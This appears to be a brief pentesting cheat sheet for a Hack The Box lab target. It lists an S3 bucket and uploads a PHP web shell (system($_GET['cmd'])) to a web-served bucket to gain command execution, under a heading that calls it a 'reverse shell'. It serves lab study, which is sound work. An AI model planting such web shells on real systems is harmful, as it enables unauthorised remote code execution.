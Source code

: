 - [aws bucket list](#awsbl)
- [aws reverse shell](#awsrs)

# EC2
# aws bucket list <a name="awsbl"></a>

The `aws bucket list` command is used to list the contents of the buckets found within a subdomain hosted on AWS. It is useful for finding files such as `index.php`, etc.

- `endpoint`: URL where S3 is located (replace with `s3` or another subdomain if found).
- `s3`: Interacts with the S3 service (replace with the discovered subdomain from gobuster subdomain search).
- `ls`: Lists the directory.
- `s3://{bucket name}`: Name of the bucket to interact with.

````bash
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
````

# aws reverse shell <a name="awsrs"></a>

The `aws reverse shell` command is used to copy files from your local machine to one of the AWS buckets. After copying the file, you can access it and enter commands.

- `endpoint`: URL where S3 is located (replace with `s3` or another subdomain if found).
- `s3`: Interacts with the S3 service (replace with the discovered subdomain from gobuster subdomain search).
- `cp`: Copies the specified file, in this case, `shell.php`, to the bucket.
- `shell.php`: The file to be copied, containing `<?php system($_GET["cmd"]); ?>` code.
- `s3://{bucket name}`: Name of the bucket to interact with.

````bash
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
````